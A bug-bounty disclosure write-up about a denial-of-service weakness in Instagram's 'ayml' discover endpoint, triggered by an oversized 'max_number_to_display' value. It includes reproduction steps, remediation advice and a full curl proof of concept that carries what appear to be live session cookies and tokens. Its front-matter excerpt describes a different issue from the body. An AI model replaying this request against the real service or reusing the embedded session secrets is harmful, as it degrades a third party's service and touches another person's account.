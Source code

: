 ```yaml
---
layout: single
title: Instagram - DoS via Unbounded max_number_to_display Parameter AYML API
excerpt: "Denial of Service vulnerability in Instagram causing a specific message thread to become unusable. Out of scope for Meta’s bug bounty program due to available self-mitigation (e.g., deleting the thread)."
date: 2025-07-30
classes: wide
header:
  teaser: /img2/images/hackerone.png
  teaser_home_page: true
  icon: /img2/images/hackeronelogo.jpg
categories:
  - Bug Bounty
  - Web
tags:
  - Burpsuite
  - DoS
  - API
---
```



## Summary

A POST request to the endpoint '/api/v1/discover/ayml/' on Instagram accepts a 'max_number_to_display' parameter with no apparent upper bound. By setting this parameter to an extremely large value (e.g., 9999999999), the server takes approximately 20 seconds to respond and returns a 560/566 Internal Server Error.

This behavior can be reliably reproduced and may lead to a resource exhaustion or logical Denial of Service (DoS) condition. An attacker could abuse this with minimal effort to degrade performance or stability of backend components.

## Steps to Reproduce

- Endpoint:

```
POST https://www.instagram.com/api/v1/discover/ayml/
```

- Headers (required):

```
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
```

- Request Body:

```
max_id=%5B%5D&max_number_to_display=9999999999&module=discover_people&paginate=true
```

## Observed Behavior

- The server takes ~20 seconds to respond.

- The response is a 560/566 Internal Server Error.

- The behavior is consistent and reproducible.

- Reducing the number to a reasonable value (e.g., 100) avoids the issue completely.

## Impact

- This vulnerability may allow an attacker to:

	- Generate sustained backend load with low effort.

	- Cause multiple concurrent slow requests that degrade service availability.

	- Perform a logical DoS without triggering WAFs or rate limits (assuming authenticated sessions).

- This also indicates a lack of proper input validation and resource control.

## Suggested Remediation

- Apply strict server-side validation for max_number_to_display to enforce reasonable upper bounds (e.g., max 500).

- Reject or clamp unusually high values to prevent backend overload.

- Log abuse patterns for this parameter to identify potential abuse at scale.

## Proof of Concept Script (bash)

- Proof of Concept

```bash
curl --path-as-is -i -s -k -X POST \
  -H 'Host: www.instagram.com' \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0' \
  -H 'Accept: */*' \
  -H 'Accept-Language: en-US,en;q=0.5' \
  -H 'Accept-Encoding: gzip, deflate, br' \
  -H 'X-Csrftoken: o4KGwJpvN0RZ16gkpviIf86b7gHakMXU' \
  -H 'X-Instagram-Ajax: 1025186983' \
  -H 'X-Ig-App-Id: 936619743392459' \
  -H 'X-Asbd-Id: 359341' \
  -H 'X-Ig-Www-Claim: hmac.AR1AQb6TXgWPd4C48BvCGyASfCm4XqPjjOBfDXuU4qJD68p6' \
  -H 'X-Web-Session-Id: 1pl63y:afuedo:xll9x6' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'X-Requested-With: XMLHttpRequest' \
  -H 'Origin: https://www.instagram.com' \
  -H 'Referer: https://www.instagram.com/explore/people/' \
  -H 'Sec-Fetch-Dest: empty' \
  -H 'Sec-Fetch-Mode: cors' \
  -H 'Sec-Fetch-Site: same-origin' \
  -H 'Te: trailers' \
  -b 'datr=ZmaCaHRv5mShWpLhF76V6FEY; ig_did=16BBD5A7-D00B-450E-89EA-6976AAEAA051; mid=aIJmZgAEAAHV31vsZ0qp1dURspV1; wd=1886x877; csrftoken=o4KGwJpvN0RZ16gkpviIf86b7gHakMXU; sessionid=74249493484%3A2m2JqdQLvaW7ur%3A23%3AAYdFI3BENmvs-DhTggtIVqaMG9eMpWfriBiFPCuNrQ; ds_user_id=74249493484; rur="CLN\05474249493484\0541785089902:01fe120fbf1aa61b7a70f4c73f65ec48549c7b7b91f966037a7303075102815021a6fded"' \
  --data-binary 'max_id=%5B%5D&max_number_to_display=9999999999&module=discover_people&paginate=true&jazoest=22745' \
  'https://www.instagram.com/api/v1/discover/ayml/' \
  -w '\nTotal time: %{time_total} seconds\n'
```

- Output 

![](/img2/Pasted%20image%2020250726235839.png)

## Proof of Concept BurpSuite

![](/img2/Pasted%20image%2020250729185334.png)

![](/img2/Pasted%20image%2020250729185456.png)